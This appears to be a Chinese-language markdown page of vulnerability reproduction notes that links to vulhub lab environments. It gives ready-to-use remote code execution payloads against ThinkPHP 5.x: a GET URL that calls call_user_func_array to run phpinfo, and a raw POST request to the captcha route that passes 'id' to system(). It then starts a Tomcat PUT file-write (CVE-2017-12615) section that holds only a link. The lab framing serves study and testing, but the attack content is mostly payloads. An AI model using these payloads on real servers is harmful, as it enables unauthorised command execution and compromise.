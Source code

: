 # **[Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability](https://vulhub.org/#/environments/thinkphp/5-rce/)**


## 漏洞环境

环境启动后，访问`http://your-ip:8080`即可看到ThinkPHP默认启动页面。

## 漏洞复现

直接访问
```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```
，即可执行phpinfo：


# **[ThinkPHP5 5.0.23 Remote Code Execution Vulnerability](https://vulhub.org/#/environments/thinkphp/5.0.23-rce/)**

## [漏洞复现](https://github.com/vulhub/vulhub/blob/master/thinkphp/5.0.23-rce/README.zh-cn.md)

发送数据包：
```
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id

```

# **[ Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）](https://vulhub.org/#/environments/tomcat/CVE-2017-12615/)**


## **[漏洞原理](https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5)**
